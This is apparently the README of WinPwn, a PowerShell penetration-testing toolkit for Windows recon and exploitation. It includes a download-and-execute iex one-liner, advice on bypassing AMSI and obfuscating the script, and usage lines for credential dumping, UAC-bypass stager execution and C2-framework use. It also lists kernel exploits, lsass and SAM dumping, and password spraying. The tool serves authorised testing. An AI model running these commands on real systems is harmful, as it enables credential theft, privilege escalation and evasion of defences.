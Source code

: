 # WinPwn

In many past internal penetration tests I often had problems with the existing Powershell Recon / Exploitation scripts due to missing proxy support. I also often ran the same scripts one after the other to get information about the current system and/or the domain. To automate as many internal penetrationtest processes (reconnaissance as well as exploitation) and for the proxy reason I wrote my own script with automatic proxy recognition and integration. The script is mostly based on well-known large other offensive security Powershell projects.

Any suggestions, feedback, Pull requests and comments are welcome!

Just Import the Modules with:

`Import-Module .\WinPwn.ps1` or `iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/WinPwn.ps1')`

To bypass AMSI take one of the existing [bypass techniques](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell), find the AMSI [trigger](https://github.com/RythmStick/AMSITrigger) and manually change it in the bypass function or encode the trigger string. Alternatively obfuscate the whole script.

If you find yourself stuck on a windows system with no internet access - no problem at all, just use `Offline_Winpwn.ps1`, the most important scripts and executables are included.

Functions available after Import:

- `WinPwn` -> Menu to choose attacks:

![https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/images/WinPwn.JPG](https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/master/images/WinPwn.JPG)

- `Inveigh` -> Executes Inveigh in a new Console window , SMB-Relay attacks with Session management (Invoke-TheHash) integrated
- `SessionGopher` -> Executes Sessiongopher Asking you for parameters
- `Kittielocal` ->
    - Obfuscated Invoke-Mimikatz version
    - Safetykatz in memory
    - Dump lsass using rundll32 technique
    - Download and run obfuscated Lazagne
    - Dump Browser credentials
    - Customized Mimikittenz Version
    - Exfiltrate Wifi-Credentials
    - Dump SAM-File NTLM Hashes
    - SharpCloud
- `Localreconmodules` ->
    - Collect installed software, vulnerable software, Shares, network information, groups, privileges and many more
    - Check typical vulns like SMB-Signing, LLMNR Poisoning, MITM6 , WSUS over HTTP
    - Checks the Powershell event logs for credentials or other sensitive informations
    - Collect Browser Credentials and history
    - Search for passwords in the registry and on the file system
    - Find sensitive files (config files, RDP files, keepass Databases)
    - Search for .NET Binaries on the local system
    - Optional: Get-Computerdetails (Powersploit) and PSRecon
- `Domainreconmodules` ->
    - Collect various domain informations for manual review
    - Find AD-Passwords in description fields
    - Search for potential sensitive domain share files
    - Unconstrained delegation systems/users are enumerated
    - Generate Bloodhound Report
    - MS17-10 Scanner for domain systems
    - Bluekeep Scanner for domain systems
    - SQL Server discovery and Auditing functions - PowerUpSQL
    - MS-RPRN Check for Domaincontrollers or all systems
    - Group Policy Audit with Grouper2
    - An AD-Report is generated in CSV Files (or XLS if excel is installed) with ADRecon
    - Check Printers for common vulns
    - Search for Resource-Based Constrained Delegation attack paths
    - Check all DCs for zerologon - CVE-2020-1472
    - And more, just take a look
- `Privescmodules`
    - itm4ns Invoke-PrivescCheck
    - winPEAS
    - Powersploits PowerUp Allchecks, Sherlock, GPPPasswords
    - Dll Hijacking, File Permissions, Registry permissions and weak keys, Rotten/Juicy Potato Check
- `kernelexploits` ->
    - MS15-077 - (XP/Vista/Win7/Win8/2000/2003/2008/2012) x86 only!
    - MS16-032 - (2008/7/8/10/2012)!
    - MS16-135 - (WS2k16 only)!
    - CVE-2018-8120 - May 2018, Windows 7 SP1/2008 SP2,2008 R2 SP1!
    - CVE-2019-0841 - April 2019!
    - CVE-2019-1069 - Polarbear Hardlink, Credentials needed - June 2019!
    - CVE-2019-1129/1130 - Race Condition, multiples cores needed - July 2019!
    - CVE-2019-1215 - September 2019 - x64 only!
    - CVE-2020-0638 - February 2020 - x64 only!
    - CVE-2020-0796 - SMBGhost
    - CVE-2020-0787 - March 2020 - all windows versions
    - CVE-2021-34527/CVE-2021-1675 - June 2021 - PrintNightmare
    - CVE-2021-40449 - CallbackHell - October 2021
    - Juicy-Potato Exploit
    - itm4ns Printspoofer
- `UACBypass` ->
    - UAC Magic, Based on James Forshaw's three part post on UAC
    - UAC Bypass cmstp technique, by Oddvar Moe
    - DiskCleanup UAC Bypass, by James Forshaw
    - DccwBypassUAC technique, by Ernesto Fernandez and Thomas Vanhoutte
- `SYSTEMShell` ->
    - Pop System Shell using CreateProcess
    - Pop System Shell using NamedPipe Impersonation
    - Pop System Shell using Token Manipulation
    - Bind System Shell using UsoClient DLL load or CreateProcess
- `Shareenumeration` -> Invoke-Filefinder and Invoke-Sharefinder (Powerview / Powersploit)
- `Domainshares` -> Snaffler or Passhunt search over all domain systems
- `Groupsearch` -> Get-DomainGPOUserLocalGroupMapping - find Systems where you have Admin-access or RDP access to via Group Policy Mapping (Powerview / Powersploit)
- `Kerberoasting` -> Executes Invoke-Kerberoast in a new window and stores the hashes for later cracking
- `PowerSQL` -> SQL Server discovery, Check access with current user, Audit for default credentials + UNCPath Injection Attacks
- `Sharphound` -> Bloodhound 3.0 Report
- `Adidnsmenu` -> Create Active Directory-Integrated DNS Nodes or remove them
- `MS17-10` -> Scan active windows Servers in the domain or all systems for MS17-10 (Eternalblue) vulnerability
- `Sharpcradle` -> Load C# Files from a remote Webserver to RAM
- `DomainPassSpray` -> DomainPasswordSpray Attacks, one password for all domain users
- `Bluekeep` -> Bluekeep Scanner for domain systems

Without parameters, most of the functions can only be used from an interactive shell. So i decided to add the parameters `-noninteractive` and `-consoleoutput` to make the script usable from an asynchronous C2-Framework like Empire, Covenant, Cobalt Strike or others. Additionally the `-repo` parameter was added to use WinPwn with all its features from a local repository. They can be used as follows:

Usage:

- noninteractive -> No questions for functions so that they run with predefined or user defined parameters
- consoleoutput -> The loot/report folders are not created. Every function returns the output to the console so that you can take a look at everything in the Agent logs of your C2-Framework Examples:

`WinPwn -noninteractive -consoleoutput -DomainRecon` -> This will return every single domain recon script and function and will probably give you really much output

`WinPwn -noninteractive -consoleoutput -Localrecon` -> This will enumerate as much information for the local system as possible

`Generalrecon -noninteractive` -> Execute basic local recon functions and store the output in the corresponding folders

`UACBypass -noninteractive -command "C:\temp\stager.exe" -technique ccmstp` -> Execute a stager in a high integrity process from a low privileged session

`Kittielocal -noninteractive -consoleoutput -browsercredentials` -> Dump Browser-Credentials via Sharpweb returning the output to console

`Kittielocal -noninteractive -browsercredentials` -> Dump SAM File NTLM-Hashes and store the output in a file

`WinPwn -PowerSharpPack -consoleoutput -noninteractive` -> Execute Seatbelt, PowerUp, Watson and more C# binaries in memory

`Dotnetsearch -consoleoutput -noninteractive` -> Search in `C:\Program Files\` and `C:\Program Files (x86)\` for .NET assemblies

`WinPwn -repo http://192.168.1.10:8000/WinPwn_Repo` -> Use a local webserver as offline repo to use WinPwn without internet access

Get_WinPwn_Repo.sh:

Usage: ./Get_WinPwn_Repo.sh {Option}

Example: ./Get_WinPwn_Repo.sh --install

Options: --install Download the repository and place it to ./WinPwn_Repo/ --remove Remove the repository ./WinPwn_Repo/ --reinstall Remove the repository and download a new one to ./WinPwn_Repo/ --start-server Start a python HTTP server on port 8000 --help Show this help